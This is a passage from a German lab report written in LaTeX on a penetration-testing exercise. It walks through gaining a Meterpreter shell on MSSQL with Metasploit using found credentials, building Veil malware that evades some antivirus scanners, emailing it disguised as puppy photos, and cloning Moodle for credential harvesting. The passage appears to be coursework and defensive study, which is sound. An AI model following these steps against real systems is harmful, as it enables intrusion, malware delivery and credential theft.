    
\includegraphics[width=0.85\linewidth]{Whakaahua/aufgabe2/d/mssql_login_exploit.png}
    \caption{\texttt{mssql\_login}}
    \label{fig:mssql_login_exploit}
\end{figure} \noindent
Mit den gefundenen Anmeldedaten \texttt{sa:computer} für den Admin kann nun der Exploit \texttt{mssql\_payload} verwendet werden.
Dieser ist unter dem Pfad
\begin{center}
    \texttt{windows/mssql/mssql\_payload}
\end{center}
zu finden. \autoref{fig:mssql_payload_show_options} zeigt die wichtigsten Konfigurationen für den Exploit, darunter wieder \texttt{RHOST} := 192.168.1.32 und \texttt{RPORT} := 1113, aber diesmal auch \texttt{USERNAME} := sa und \texttt{PASSWORD} := computer.
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.85\linewidth]{Whakaahua/aufgabe2/d/mssql_payload_show_options.png}
    \caption{Options for \texttt{mssql\_payload}}
    \label{fig:mssql_payload_show_options}
\end{figure} \noindent
Der Befehl \texttt{exploit} startet den Angriff. Der Vorgang und das Ergebnis sind in \autoref{fig:mssql_payload_exploit} zu sehen.
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.85\linewidth]{Whakaahua/aufgabe2/d/mssql_payload_exploit.png}
    \caption{\texttt{mssql\_payload}}
    \label{fig:mssql_payload_exploit}
\end{figure} \noindent
Das Ergebnis ist eine Meterpreter-Shell (reverse\_shell). Der Angriff war ein Erfolg.
\section{Setoolkit und Windows 7}
In dieser Aufgabe wurde eine Malware für einen Angriff auf Windows 7 mit dem Setoolkit erzeugt und ausgeführt.

\subsection{Malware mit Veil erzeugen}
Im ersten Schritt musste die E-Mail des Admins gefunden werden. Dies war über einen einfachen telnet Befehl möglich, da die gesuchte Mail als Hilfe hinterlegt war.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.85\linewidth]{Whakaahua/aufgabe3/admin_mail.png}
	\caption{Admin Mail}
	\label{fig:admin_mail_3}
\end{figure}

\subsection{Veil}
Im nächsten Schritt wurde mit Veil die Malware erzeugt und anschließend mit VirusTotal überprüft. Die Malware wurde mit Veil erzeugt. Im Programm wurde eine Übersicht der Tools angezeigt.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.85\linewidth]{Whakaahua/aufgabe3/veil1.png}
	\caption{Übersicht}
	\label{fig:veil1}
\end{figure}

Anschließend wurde das Tool Evasion ausgewählt.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.85\linewidth]{Whakaahua/aufgabe3/veil2.png}
	\caption{Auswahl des Tools}
	\label{fig:veil2}
\end{figure}

Mit list konnten verschiedene Payloads angezeigt werden. Das Ziel ist es eine Meterpretersession auf dem Zielsystem mittels einer reverse\_shell zu öffnen. Also wurde das passende Payload dafür ausgewählt. In diesem wurden noch der LHOST gesetzt.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.85\linewidth]{Whakaahua/aufgabe3/veil3.png}
	\caption{Auswahl des Payloads}
	\label{fig:veil3}
\end{figure}

Im letzten Schritt wurde die Malware mit generate erzeugt.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.85\linewidth]{Whakaahua/aufgabe3/veil4.png}
	\caption{Generierung der Malware}
	\label{fig:veil4}
\end{figure}

Die erzeugte Malware wurde auf VirusTotal getestet. Dabei war zu erkennen, dass nicht alle Virenscanner die Malware auch als solche erkannten. Die Verschleierung war also weitestgehend erfolgreich.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.85\linewidth]{Whakaahua/aufgabe3/undetected_baaaaam.png}
	\caption{VirusTotal}
	\label{fig:virustotal}
\end{figure}

Die Malware wurde dann per Mail versendet. Falls das Opfer die Datei Öffnet, wird der Angriff gestartet. Unsere Strategie bestand daraus die Malware als Bilder von süßen Hundewelpen zu tarnen. Der Versand der Mail wurde mit swaks gemacht.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.85\linewidth]{Whakaahua/aufgabe3/send_mail_attack_swaks.png}
	\caption{Mail mit Malware versenden}
	\label{fig:virustotal}
\end{figure}

Auf unserem System wurde über meterpreter eine reverse\_tcp Verbindung gestartet.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.85\linewidth]{Whakaahua/aufgabe3/start_listening.png}
	\caption{reverse\_tcp}
	\label{fig:listen}
\end{figure}

Anschließend wurde der exloit ausgeführt und ein Screenshot als Erfolg angefertigt.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.85\linewidth]{Whakaahua/aufgabe3/success_heurika.png}
	\caption{Erfolg}
	\label{fig:erfolg_3}
\end{figure}

\subsection{Credential Harvester Attack}
Im allgemeinen geht es bei einer Credential Harvester Attack darum, Anmeldedaten für einen Dienst zu klauen. Das kann unter anderem mit einer gefälschten Website geschehen. Als Beispiel könnte eine Kopie einer Bankseite unter einer ähnlichen Domain veröffentlicht werden (z.B. spar-kasse.de anstatt sparkasse.de) Auf diese Seite werden dann Opfer z.B. mittels Phishing gelockt und angefordert sich anzumelden. Diese Daten kann dann der Angreifer in einer Datenbank speichern. Somit hat der Angreifer wahrscheinlich gültige Anmeldedaten bekommen. Dieses Vorgehen wurde mit einer Kopie von Moodle gezeigt. Mit dem Setoolkit ist es möglich eine Website zu klonen und diese lokal zu hosten. Als erstes wurde dazu Moodle mit dem entsprechenden Tool geklont. Im Anschluss war die Seite auch über Localhost bzw. über die entsprechende IP auch von andern Rechnern aus dem selben Netz erreichbar.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.85\linewidth]{Whakaahua/aufgabe3/moodle_clone_pics/setoolkit_webclonee_attack_start.png}
	\caption{Klonen einer Website mit dem SET}
	\label{fig:Klonen einer Website mit dem SET}
\end{figure}

Nachdem Moodle erfolgreich geklont wurde, konnte die Seite begutachtet und auf Fehler untersucht werden.

\begin{figure}[H]
	\centering
	
	\begin{subfigure}{0.48\textwidth}
		\centering
		
\includegraphics[width=\linewidth]{Whakaahua/aufgabe3/moodle_clone_pics/moodle_login_original.png}
		\caption{Original Login}
		\label{fig:moodel orig}
	\end{subfigure}
	\hfill
	\begin{subfigure}{0.48\textwidth}
		\centering
